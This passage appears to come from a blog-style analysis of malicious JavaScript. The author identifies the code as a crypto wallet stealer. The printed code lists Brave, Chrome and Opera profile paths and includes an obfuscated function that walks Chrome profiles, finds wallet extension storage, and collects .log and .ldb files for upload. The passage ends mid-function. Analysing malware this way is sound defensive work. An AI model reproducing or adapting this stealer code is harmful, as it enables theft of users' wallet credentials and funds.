 What are these? 😐. With just a quick Google search, I found out they are Chrome crypto wallet extensions: MetaMask, BEW lite, Phantom,...The intention seems pretty clear at this point — most likely, this piece of code is designed to steal information from crypto wallets in the browser (it’s quite meticulous here 🤡).

```javascript
const R = ["Local/BraveSoftware/Brave-Browser", "BraveSoftware/Brave-Browser", "BraveSoftware/Brave-Browser"];
const Q = ["Local/Google/Chrome", "Google/Chrome", "google-chrome"];
const X = ["Roaming/Opera Software/Opera Stable", "com.operasoftware.Opera", "opera"];
```

## Deeper...

Indeed, the code below iterates through all Chrome user profiles and checks whether any of them have the extensions we mentioned earlier installed.
```javascript
const uploadFiles = async (_0x1580b4, _0x59e0fb, _0x3bbc1d, _0x13dfc4) => {
    let _0x3a0672;
    if (!_0x1580b4 || '' === _0x1580b4) {
      return [];
    }
    try {
      if (!testPath(_0x1580b4)) {
        return [];
      }
    } catch (_0x26dbac) {
      return [];
    }
    if (!_0x59e0fb) {
      _0x59e0fb = '';
    }
    let _0x242ba7 = [];
    for (let _0x237834 = 0; _0x237834 < 200; _0x237834++) {
      const _0x5b67bd = _0x1580b4 + '/' + (0 === _0x237834 ? "Default" : "Profile " + _0x237834) + "/Local Extension Settings";
      for (let _0x329bbe = 0; _0x329bbe < wallet_extension_chrome.length; _0x329bbe++) {
        let _0xe3666 = _0x5b67bd + '/' + wallet_extension_chrome[_0x329bbe];
        if (testPath(_0xe3666)) {
          let _0x351017 = [];
          try {
            _0x351017 = fs.readdirSync(_0xe3666);
          } catch (_0x1cf124) {
            _0x351017 = [];
          }
          let _0x5c4fb2 = 0;
          if (!testPath(getAbsolutePath('~/') + "/.n3")) {
            fs_promises.mkdir(getAbsolutePath('~/') + "/.n3");
          }
          _0x351017.forEach(async _0x3ceb01 => {
            let _0x373cf5 = path.join(_0xe3666, _0x3ceb01);
            try {
              let _0x4eff44 = fs.statSync(_0x373cf5);
              if (_0x4eff44.isDirectory()) {
                return;
              }
              if (_0x373cf5.includes('.log') || _0x373cf5.includes(".ldb")) {
                const _0x4efb9a = {
                  filename: "81_" + _0x59e0fb + _0x237834 + '_' + wallet_extension_chrome[_0x329bbe] + '_' + _0x3ceb01
                };
                _0x242ba7.push({
                  'value': fs.createReadStream(_0x373cf5),
                  'options': _0x4efb9a
```